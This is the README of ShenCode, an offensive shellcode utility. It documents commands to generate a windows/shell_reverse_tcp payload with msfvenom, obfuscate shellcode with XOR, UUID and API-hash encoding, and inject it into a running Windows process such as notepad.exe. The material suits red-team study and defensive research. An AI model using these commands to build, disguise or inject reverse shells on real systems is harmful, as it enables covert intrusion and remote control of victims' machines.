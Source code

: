 # ShenCode

A multi purpose tool for shellcode operations

I am developing under Windows. This release brings some compatibility fixes for Kali Linux. `inject` and `ROR2ROL` are Windows dependent. All other features are now available for Kali and maybe other Posix OS.

![](shencode-042.png)

## Features

### Version 0.4.3

- create
	- create shellcodes with msfvenom
- encode
	- `ROR13` to `ROL` with custom key (only Windows)
	- `QR-Code`: hide OpCodes as QR-Code image
	- `XOR` encryption
	- `UUID` obfuscation
- extract
	- extract shellcode from position `x` to `y`
- inject
	- inject shellcode into a remote process (only Windows)
- output
	- raw shellcode to file
	- formatting options: `C++, C#, C-ASM, PS, PY, HEX`
	- new `inspect` option helps to find offsets
	- output in console windows
	- output in template

## ToDo

- automatical compile feature
- integrate more frameworks
- integrate more encoder

## How to use

### create shellcode

`python shencode.py create --cmd="-p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4443 -f raw -o payload.bin"`
### encode shellcode


| Encoder          | Arguments                                                              |
| ---------------- | ---------------------------------------------------------------------- |
| **ROR13 to ROL** | `encode --filename shell.raw --outputfile shell.enc --key 33`          |
| **QR-Code**      | `encode --filename shell.raw --outputfile shell.enc --qrcode`          |
| **UUID**         | `encode --filename shell.raw --uuid`                                   |
| **XOR**          | `encode --filename shell.raw --outputfile shell.enc --xor --xorkey 96` |

### extract shellcode

`python shencode.py extract --filename bin.o --outputfile shell.raw --first-byte 6 --last-byte 128`
### inject shellcode

`python shencode.py inject --filename calc.raw --processname notepad.exe --startprocess`
### output in different styles

#### console output

`python shencode.py -o {c, casm, cs, ps1, py, hex} <commands>`

Check [this repository](https://github.com/psycore8/bin2shellcode) for more information regarding the output.

#### inspect output

`python shencode.py output --filename inputfile --syntax inspect`

Output hex in 8 byte: `0x00000008: 48 31 c0 48 89 45 f8 48`

#### write output to a template file

`python shencode.py output --filename inputfile --write templatefile --syntax c`

This command replaces a `!++BUFFER++!` placeholder in the given file e.g.

```cpp
unsigned char buf[] =
!++BUFFER++!
```

will be replaced by the generated shellcode

```cpp
unsigned char buf[] =
"\x90\x01\..\xff";
```

## Config

Make sure your metasploit binary folder is in your PATH variable

## Parameter

Please [refer to the wiki](https://github.com/psycore8/shencode/wiki) for a full parameter list.

| **Command** | **Subcommand** | **Short** | **Description**                                                                       | Requires  |
| ----------- | -------------- | --------- | ------------------------------------------------------------------------------------- | --------- |
| create      |                |           | create a shellcode using msfvenom                                                     |           |
|             | --cmd          | -c        | msfvenom command line, use quotation marks and equal sign e.g --cmd=\"-p ...\"        |           |
| encode      |                |           | Shellcode encoding                                                                    |           |
|             | --filename     | -f        | raw input file with shellcode                                                         |           |
|             | --outputfile   | -o        | raw output file                                                                       |           |
|             | --ror2rol      | -r        | encode windows function hashes to ROL                                                 | -f -o -rk |
|             | --key          | -rk       | ROL key for encoding                                                                  |           |
|             | --qrcode       | -q        | Create a QR Code from Shellcode                                                       | -f        |
|             | --xor          | -x        | use additional XOR encoding                                                           | -f -o -xk |
|             | --xorkey       | -xk       | XOR key for encoding                                                                  |           |
|             | --uuid         | -u        | Obfuscate Shellcode as UUID                                                           | -f        |
| extract     |                |           |                                                                                       |           |
|             | --filename     | -f        | binary input file                                                                     |           |
|             | --outputfile   | -o        | name of the outputfile                                                                |           |
|             | --first-byte   | -fb       | first byte to extract                                                                 | -f -o     |
|             | --last-byte    | -lb       | last byte to extract                                                                  |           |
| inject      |                |           | inject shellcode                                                                      |           |
|             | --filename     | -f        | raw input file with shellcode to inject                                               |           |
|             | --processname  | -p        | process name to inject                                                                |           |
|             | --startprocess | -s        | if set, process will be started                                                       |           |
| output      |                |           | create formatted output by filename                                                   |           |
|             | --filename     | -f        | raw input file with shellcode                                                         |           |
|             | --lines        | -l        | adding line offsets                                                                   | -f -s     |
|             | --syntax       | -s        | formatting the shellcode, choose between `c, casm, cs, hex, inspect, ps1, py`         |           |
|             | --write        | -w        | write output to the given filename (replacing  `!++BUFFER++!` placeholder in the file |           |
| --output    |                |           | formatting the shellcode in C, Casm, C#, Powershell, python or hex                    |           |

## References

- [Function Name Hashing](https://www.bordergate.co.uk/function-name-hashing/)
- [Win32API with python3 injection](https://systemweakness.com/win32api-with-python3-part-iii-injection-6dd3c1b99c90)
- [Violent python: XOR Encryption](https://samsclass.info/124/proj14/VPxor.htm)
- [How to easily encrypt file in python](https://www.stackzero.net/how-to-easily-encrypt-file-in-python/)
